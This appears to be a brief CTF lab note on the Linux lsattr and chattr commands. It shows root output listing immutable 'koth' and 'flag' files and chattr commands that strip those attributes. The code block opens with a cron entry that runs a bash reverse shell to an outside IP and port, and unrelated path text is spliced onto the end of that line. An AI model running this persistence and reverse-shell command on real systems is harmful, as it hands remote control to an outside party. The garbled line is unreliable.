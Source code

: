 # lsattr / chattr

```
* * * * * root /bin/bash -c '/bin/sh -i >& /dev/tcp/10.14.66.169/5544 0>&1'nclude/config/net/team/mode/activebackup.h
root@foodctf:/root# lsattr 
--------------e--- ./king.txt
----i---------e--- ./koth
--------------e--- ./hello.txt
----i---------e--- ./flag
```



```
root@foodctf:/root# sudo /usr/src/usr/bin/chattr -i hello.txt 
root@foodctf:/root# sudo /usr/src/usr/bin/chattr -a hello.txt
```

[https://www.baeldung.com/linux/lsattr-chattr-attributes](https://www.baeldung.com/linux/lsattr-chattr-attributes)

[https://www.tecmint.com/chattr-command-examples/](https://www.tecmint.com/chattr-command-examples/)





